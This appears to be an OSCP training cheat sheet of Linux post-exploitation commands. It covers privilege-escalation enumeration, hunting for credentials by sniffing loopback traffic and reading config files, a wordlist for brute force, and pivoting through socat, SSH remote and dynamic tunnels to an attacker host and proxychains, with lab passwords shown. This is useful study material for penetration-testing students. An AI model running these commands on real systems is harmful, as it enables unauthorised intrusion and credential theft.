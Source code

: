 # OSCP
OSCP Cheat sheet

## Linux Privilege Escalation
### Manual Enumeration
#### User and group
```
id
```
#### Enumerates all users
```
cat /etc/passwd
```
#### Host name discovery
```
hostname
```
#### OS release and version
```
cat /etc/issue    
cat /etc/*-release
uname -a
```
#### Running processes
> **a** and **x** for all processes without tty, **u** for user readable
```
ps aux    
```
#### TCP/IP configuration + Routing
> **a** = all, **n** = avoid hostname resolution, **p** = process name
```
ip a
ifconfig
route
routel
netstat
ss -anp
```
#### Firewall rules
```
cat /etc/iptables/rules.v4
```
#### Scheduled tasks
```
ls -lah /etc/cron*
(sudo) crontab -l
```
#### Installed applications
> **dpkg** is for Debian systems. For Red Hat-based systems, use **rpm**
```
dpkg -l
```
#### Sensitive files
```
find / -writable -type d 2>/dev/null
```
#### Mounted filesystems and drives
```
cat /etc/fstab         \\\\ List of drives that will be mounted at boot
mount                  \\\\ List of all mounted filesystems
lsblk                  \\\\ List of all disks
```
#### Kernel modules
```
lsmod
/sbin/modinfo <name of module we want informations of "example: libata">
```
#### SUID programms
```
find / -perm -u=s -type f 2>/dev/null
```
### Automated Enumeration
>  This program has to be run on the victim's machine (There are plenty other programms that exists such as LinPEAS...)
```
./unix-privesc-check <mode> > output.txt
```
### Exposed Confidential Informations
#### User trails
> **6** and **6** are for minimum and maximum, **-t** is for pattern
```
env                               \\\\ Environment variables
cat .bashrc
crunch 6 6 -t Lab%%% > wordlist   \\\\ Creating a wordlist for bruteforce
```
#### Service Footprints
> run "command" every **-n** seconds
```
watch -n 1 "ps -aux | grep pass"
sudo tcpdump -i lo -A | grep "pass"  \\\\ -A (ASCI) -i (interface "lo")
```
### Insecure File Permission
```
grep "CRON" /var/log/syslog
```
### Insecure System Components
> **-C** filters the output based on name. **-r** means recursive
> Some of the Components might be protected by AppArmor...
```
ps u -C passwd
/usr/sbin/getcap -r / 2>/dev/null        \\\\ Manual enumeration of binaries with capabilities
sudo -l                                  \\\\ Lists available "sudo" commands of the current user
cat /var/log/syslog                      \\\\ Can help understanding why a command didn't work as expected
```
#### Exploit Kernel Vulnerabilities
```
cat /etc/issue        \\\\ General informations about the system
uname -r
arch                  \\\\ Gives architecture information
```

## Port Redirection and SSH Tunneling
### Port Forwarding with Linux tools
> **-ddd** = verbose, **fork** doesn't kill the connection after request, **-U** = User.
```
ip addr
ip route
cat /var/atlassian/application-data/confluence/confluence.cfg.xml
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.216.215:5432
psql -h 192.168.50.63 -p 2345 -U postgres
```
### SSH Tunneling
> **-D** is for Dynamic, that's why only argument is put into the command, because we wait for every connection (not a precise one)
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
ss -ntplu
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
cat /etc/proxychains4.conf                                                          \\\\ This is the config file for "proxychain"
proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234        \\\\ Same request as the last section, but with proxychain (for Dynamic tunneling)
proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217                          \\\\ Nmap request with "proxychain"
```
#### SSH Remote Port Forwarding
```
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4                        \\\\ "Bind shell" like port forwarding
psql -h 127.0.0.1 -p 2345 -U postgres
```
